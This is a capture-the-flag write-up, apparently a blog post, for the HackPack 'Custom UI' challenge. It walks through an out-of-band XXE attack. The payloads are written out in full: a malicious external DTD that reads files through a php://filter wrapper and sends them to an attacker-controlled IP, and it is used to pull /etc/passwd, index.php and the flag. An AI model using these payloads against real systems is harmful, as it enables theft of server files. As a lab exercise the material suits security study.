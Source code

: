 ```yaml
---
title: "HackPack: Custom UI"
categories:
  - HackPackCTF
tags:
  - HackPackCTF
---
```



Visiting https://custom-ui.cha.hackpack.club gives us a user interface, where we can enter RGB values for a button, along with its text. Catching the request and setting "xdata='" in the POST request gives us the following error:

```
DOMDocument::loadXML(): Start tag expected, '&lt;' not found in Entity, line: 1 in <b>/var/www/html/index.php</b> on line <b>12<
```

Looks like we have an XXE vuln!

Messing around with the vuln shows us that we can't see anything loaded with a file:// wrapper, but we can use an OOB technique:

evil.dtd (hosted on attacking machine):

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil2.dtd?%data;'>">
```

We'll need to form a valid XML request and base64 encode it, so the newlines are kept intact:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://54.234.159.90/evil.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

Now, we send the base64 encoded payload in the xdata= section of the post request with burp, and we receive a base64 encoded payload back on our attacking machine! Decoding the base64 gives us:

```
root:x:0:0:root:/root:/bin/bash                                                                                      
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin                
sys:x:3:3:sys:/dev:/usr/sbin/nologin                
sync:x:4:65534:sync:/bin:/bin/sync                                                                                   
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                      
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                         
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                    
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                  
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                           
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin                                                        
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin                                                                     
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin                                    
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin                                                           
_apt:x:100:65534::/nonexistent:/bin/false  
```

Next, we'll check to see if there's any hidden info in the index.php page:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/index.php"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil.dtd?%data;'>">
```

Decoding the response gives us the following interesting section:

```
  <?php 
    if ($debug == "true") {
      echo "<!-- TODO: Delete flag.txt from /etc/ -->";
    }
  ?>
```

We'll form one final request to grab the flag:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/flag.txt"><!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://54.234.159.90/evil.dtd?%data;'>">
```

We get:

**flag{d1d_y0u_kn0w_th@t_xml_can_run_code?}**
